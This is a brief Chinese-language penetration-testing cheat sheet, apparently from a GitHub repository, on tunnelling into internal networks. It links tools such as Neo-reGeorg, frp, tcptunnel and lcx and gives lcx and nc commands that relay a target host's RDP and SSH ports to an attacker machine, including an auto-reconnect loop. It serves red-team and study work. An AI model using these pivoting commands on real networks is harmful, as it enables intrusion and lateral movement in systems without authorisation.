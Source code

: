 

## 内网穿透
[Neo-reGeorg -- php](https://blog.csdn.net/qq_42094992/article/details/115143527)
frp/nps

[tcptunnel 利用 TCP 隧道让内网不出网主机上线 MSF](https://mp.weixin.qq.com/s/iDAAC3BRPj2YaWkNZPWEDQ)

-- for xp/2003
3proxy 7.x / CCProxy
nc
[lcx](https://github.com/UndefinedIdentifier/LCX)

[内网渗透中隧道渗透技术](https://blog.csdn.net/qq_17204441/article/details/88834324)
### lcx
```bash
靶机执行
Lcx.exe -slave 192.168.100.3 12345 192.168.100.128 3389 (把攻击机的12346数据 传递给靶机的3389)
攻击机执行
Lcx.exe -listen 12345 12346 (把攻击机12345端口接收到的数据转发到哦12346端口)
```
### nc
[nc端口转发](https://ssooking.github.io/2020/05/nc%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/)
```bash
# 跳板机: 8888 转到 153 的 22端口上
nc -l -p 8888 -c "nc 192.168.19.153 22"
```

自动循环连接
```bash
while :; do (nc -l -p 8888 -c "nc 192.168.19.153 22"); done
```